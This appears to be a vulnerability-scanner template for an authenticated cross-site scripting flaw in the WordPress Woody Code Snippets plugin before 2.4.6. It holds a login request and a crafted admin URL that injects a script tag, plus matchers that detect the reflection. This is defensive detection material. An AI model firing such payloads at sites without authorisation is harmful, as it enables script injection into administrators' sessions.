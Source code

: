**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Woody Code Snippets \<2.4.6 - Cross-Site Scripting

## Description

- WordPress Woody Code Snippets plugin before 2.4.6 contains a cross-site scripting vulnerability. It does not escape generated URLs before outputting them back in an attribute.
- severity - high
- tags - xss,wp,wordpress,authenticated,woody,wpscan,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/edit.php?post_type=wbcr-snippets&page=import-wbcr_insert_php&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. import-wbcr_insert_php&a\">\<script>alert(1)\</script>"
  2. Woody Code Snippets Import
- condition - and

